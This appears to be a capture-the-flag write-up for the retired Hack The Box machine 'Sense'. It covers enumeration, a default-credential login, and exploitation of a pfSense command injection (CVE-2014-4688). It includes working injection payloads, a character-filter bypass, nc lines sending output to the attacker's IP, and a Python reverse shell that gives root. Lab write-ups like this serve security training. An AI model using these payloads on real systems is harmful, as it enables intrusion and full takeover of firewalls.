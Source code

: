 # Sense

This is the write-up for the box Sense that got retired at the 24th March 2018.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.60    sense.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/sense.nmap 10.10.10.60
```

```markdown
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

## Checking HTTP and HTTPS (Port 80 & 443)

The web service on port 80 forwards to the web service on port 443 and it greets us with a **pfSense** login page:

![pfSense Login](sense_web-1.png)

This software is an open-source firewall and router software that is based on **FreeBSD**.
By default it has a Brute-Force protection that bans IP addresses for 24 hours after 15 failed login attempts, so we can't guess usernames.

But it is possible to search for hidden directories or files with **Gobuster**:
```markdown
gobuster -u https://10.10.10.60 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x txt -t 250
```

I look for _txt_ files because searching for directories did not get any interesting results.
This way it finds two _txt_ files:
- /changelog.txt
```markdown
Security Changelog

Issue
There was a failure in updating the firewall. Manual patching is therefore required

Mitigated
2 of 3 vulnerabilities have been patched.

Timeline
The remaining patches will be installed during the next maintenance window
```

- /system-users.txt
```markdown
Support ticket

Please create the following user

username: Rohit
password: company defaults
```

The _changelog.txt_ shows that two out of three vulnerabilities are patched, so there is probably one that we can exploit.
In the _system-users.txt_ we get a the username _Rohit_ who has the company default password.

We don't know the company default password but when trying the default password for **pfSense**, which is _pfsense_, we get logged in with _rohit_.

![pfSense Dashboard](sense_web-2.png)

The version of this pfSense installation is 2.1.3 and we can search for public vulnerabilities:
```markdown
searchsploit pfsense
```

The vulnerability _"pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection"_ looks like one that we can use.
This vulnerability is registered with the CVE number **CVE-2014-4688**.
An explanation about this vulnerability can be found in [this blog post from Proteansec](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/).

### Command Execution

We need to send a GET request to the _"database"_ parameter which can be found in pfSense:
```markdown
Status --> RRD Graphs --> Right click on image --> View Image

https://10.10.10.60/status_rrd_graph_img.php?start=1586492753&end=1586521553&database=system-processor.rrd&style=inverse&graph=eight_hour
```

Lets send this request to **Burpsuite** and make it cleaner:
```markdown
GET /status_rrd_graph_img.php?&database=queues HTTP/1.1
```

Now we can start with the command execution:
```markdown
GET /status_rrd_graph_img.php?&database=queues;sleep+10
```

The response for this request takes about 10 seconds which means the `sleep` command went through and command execution works.
Unfortunately there is not output to stdout when executing something that needs output like `whoami`.

To get around this we use `nc` to connect to our client and use it as stdout:
```markdown
# Start listener on port 9001
nc -lvnp 9001

# Send request
GET /status_rrd_graph_img.php?&database=queues;whoami|nc+10.10.14.11+9001
```

The listener on my IP and port 9001 shows the output of `whoami` and it displays root.
When trying to start a reverse shell it won't work because there is a filter implemented for some special characters. For example the _slash_ character and _dash_ character does not work.

#### Bypassing the character filter

We can take a _slash_ character out of one of the environment variables.
```markdown
GET /status_rrd_graph_img.php?&database=queues;env|nc+10.10.14.11+9001
```

The environment variable for _HOME_ consists of a _slash_ character.
```markdown
GET /status_rrd_graph_img.php?&database=queues;echo+${HOME}test|nc+10.10.14.11+9001
```

The output of this request is _"/test"_ and thus we got a slash character. This way we can examine the whole filesystem:
```markdown
# Start listener on port 9001 and redirect to file
nc -lvnp 9001 > filesystem.txt

# Send request
GET /status_rrd_graph_img.php?&database=queues;find+${HOME}|nc+10.10.14.11+9001
```

Now a _dash_ character is needed to use parameters for commands. We can get this character by using the octal of the ASCII character of the dash with `printf`. The octal for _dash_ in the ASCII table is _55_.   
```markdown
GET /status_rrd_graph_img.php?&database=queues;printf+"\55"|nc+10.10.14.11+9001
```

The output of this request is a dash character.

### Starting a reverse shell

With all these workarounds to bypass the character filter, a reverse shell should be possible to execute.
First creating a Python reverse shell called _revshell.py_:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Starting a listener on port 9001 with a redirect to _revshell.py_:
```markdown
nc -lvnp 9001 < revshell.py

nc -lvnp 1234
```

Sending the request:
```markdown
GET /status_rrd_graph_img.php?&database=queues;nc+10.10.14.11+9001|python
```

The listener on my IP and port 1234 starts a reverse shell connection as root!
